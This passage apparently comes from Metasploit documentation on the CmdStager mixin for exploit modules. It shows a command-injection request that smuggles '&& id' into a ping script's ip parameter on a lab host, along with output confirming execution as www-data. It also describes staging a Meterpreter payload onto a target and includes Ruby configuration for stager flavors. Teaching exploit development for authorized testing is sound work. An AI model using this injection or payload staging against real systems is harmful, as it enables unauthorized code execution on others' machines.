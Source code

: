 OK, now we can abuse that a little and execute another command (id):

```
$ curl "http://192.168.1.203/ping.php?ip=127.0.0.1+%26%26+id"
PING 127.0.0.1 (127.0.0.1) 56(84) bytes of data.
64 bytes from 127.0.0.1: icmp_seq=1 ttl=64 time=0.020 ms

--- 127.0.0.1 ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 0.020/0.020/0.020/0.000 ms
uid=33(www-data) gid=33(www-data) groups=33(www-data)
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

See the www-data? That is the output for the second command we asked the script to execute. By doing that, we can also do something even more nasty - like writing a Meterpreter payload onto the target system, and execute it.


# The Msf::Exploit::CmdStager Mixin

Now let's talk about how to use a command stager to exploit the above script. There are a couple of steps you need to do:

**1. Include the Msf::Exploit::CmdStager mixin**

Although there are many flavors of mixins/stagers, you only need to include [Msf::Exploit::CmdStager](https://github.com/rapid7/metasploit-framework/blob/master/lib/msf/core/exploit/cmd_stager.rb) when writing a Metasploit exploit. The mixin is basically an interface to all command stagers:

```ruby
include Msf::Exploit::CmdStager
```

**2. Declare your flavors**

To tell `Msf::Exploit::CmdStager` what flavors you want, you can add the ```CmdStagerFlavor``` info in the module's metadata. Either from the common level, or the target level. Multiple flavors are allowed.  Remember that different flavors have different approaches to staging the payload for execution.  Some flavors will break the payload apart and embed the payload data into multiple `echo` or `printf` commands to write it to disk; others like `wget` and `curl` execute a command to retrieve the payload via network connection.  Your chosen flavor will be determined by the availability of a given command on the target system, the size of the command, the size of the payload, the ability to call out on the network, and the security posture of the target.

An example of setting flavors for a specific target:

```ruby
'Targets'   =>
  [
    [ 'Windows',
      {
        'Arch' => [ ARCH_X86_64, ARCH_X86 ],
        'Platform' => 'win',
        'CmdStagerFlavor' => [ 'certutil', 'vbs' ]
      }
    ]
  ]
```
